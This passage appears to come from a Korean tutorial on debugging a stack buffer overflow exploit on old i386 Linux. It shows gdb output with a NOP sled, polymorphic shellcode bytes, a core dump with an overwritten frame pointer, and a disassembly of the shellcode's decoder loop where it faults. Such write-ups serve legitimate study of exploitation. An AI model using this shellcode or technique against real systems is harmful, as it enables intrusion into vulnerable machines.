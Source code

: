 ```bash
0xbfffffc0:     0x90909090      0x90909090      0xeb909090      0xc9315e11
0xbfffffd0:     0x6c8032b1      0x8001ff0e      0xf67501e9      0xeae805eb
0xbfffffe0:     0x32ffffff      0x306951c1      0x69697430      0x6f6a6330
0xbffffff0:     0x5451e48a      0xb19ae28a      0x0081ce0c      0x00000000
0xc0000000:     Cannot access memory at address 0xc0000000
```

### 3.2 core dump 파일 디버깅

저장된 core dump 를 이용하여 디버깅을 해보자.

```bash
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux"...

warning: core file may not match specified executable file.
Core was generated by `                                                                              '.
Program terminated with signal 11, Segmentation fault.
Reading symbols from /lib/libc.so.6...done.
Reading symbols from /lib/ld-linux.so.2...done.
#0  0xbfffffd2 in ?? ()
(gdb)
```

shellcode 까지는 jump 를 잘 했는데, Polymorphic Shellcode 를 푸는 과정에서 fault 가 난 것 같다. shellcode 를 바꿔야 할까 ?

```bash
(gdb) info reg
eax            0x2      2
ecx            0x32     50
edx            0x0      0
ebx            0x401081ec       1074823660
esp            0xbffffb90       -1073742960
ebp            0x41414141       1094795585
esi            0xbfffffe3       -1073741853
edi            0xbffffbd4       -1073742892
eip            0xbfffffd2       -1073741870
eflags         0x10246  66118  

0xbfffffc8:     nop
0xbfffffc9:     nop
0xbfffffca:     nop
0xbfffffcb:     jmp    0xbfffffde
0xbfffffcd:     pop    %esi
0xbfffffce:     xor    %ecx,%ecx
0xbfffffd0:     mov    $0x32,%cl
0xbfffffd2:     subb   $0x1,0xffffffff(%esi,%ecx,1)    // Fault !!!
0xbfffffd7:     sub    $0x1,%cl
0xbfffffda:     jne    0xbfffffd2
0xbfffffdc:     jmp    0xbfffffe3
0xbfffffde:     call   0xbfffffcd
0xbfffffe3:     xor    %cl,%al
0xbfffffe5:     push   %ecx
0xbfffffe6:     imul   $0x69697430,(%eax),%esi
0xbfffffec:     xor    %ah,0x6a(%ebx)
0xbfffffef:     outsl  %ds:(%esi),(%dx)
0xbffffff0:     mov    %ah,%ah
0xbffffff2:     push   %ecx
0xbffffff3:     push   %esp
```